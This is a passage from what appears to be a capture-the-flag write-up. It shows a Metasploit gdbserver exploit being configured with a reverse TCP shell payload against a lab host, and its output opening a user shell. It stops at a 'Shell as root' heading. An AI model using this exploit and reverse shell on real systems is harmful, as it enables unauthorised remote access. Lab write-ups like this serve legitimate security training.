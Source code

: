 I’ll configure it by setting the `rhosts`, `rport`, and `lhost`:

```

msf6 exploit(multi/gdb/gdb_server_exec) > options

Module options (exploit/multi/gdb/gdb_server_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXE_FILE  /bin/true        no        The exe to spawn when gdbserver is not attached to a process.
   RHOSTS    10.10.11.125     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT     1337             yes       The target port (TCP)

Payload options (linux/x64/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  tun0             yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   1   x86_64 (64-bit)

```

Running it returns a shell:

```

msf6 exploit(multi/gdb/gdb_server_exec) > run

[*] Started reverse TCP handler on 10.10.14.6:4444 
[*] 10.10.11.125:1337 - Performing handshake with gdbserver...
[*] 10.10.11.125:1337 - Stepping program to find PC...
[*] 10.10.11.125:1337 - Writing payload at 00007ffff7fd0103...
[*] 10.10.11.125:1337 - Executing the payload...
[*] Command shell session 1 opened (10.10.14.6:4444 -> 10.10.11.125:58140 ) at 2022-04-20 20:38:51 +0000

id
uid=1000(user) gid=1000(user) groups=1000(user)

```

## Shell as root

### Enumeration
